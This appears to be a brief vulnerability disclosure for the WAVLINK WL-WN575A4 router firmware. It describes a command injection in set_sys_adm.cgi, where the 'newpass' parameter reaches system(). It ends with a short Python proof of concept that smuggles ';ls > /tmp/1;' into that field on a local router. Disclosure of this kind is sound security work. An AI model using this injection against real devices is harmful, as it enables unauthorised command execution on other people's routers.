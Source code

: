 # command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](2.png)

get value from newpass 

![](3.png)  
concate to v30 and call system, cause command injection


## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'newpass': payload})
``` 
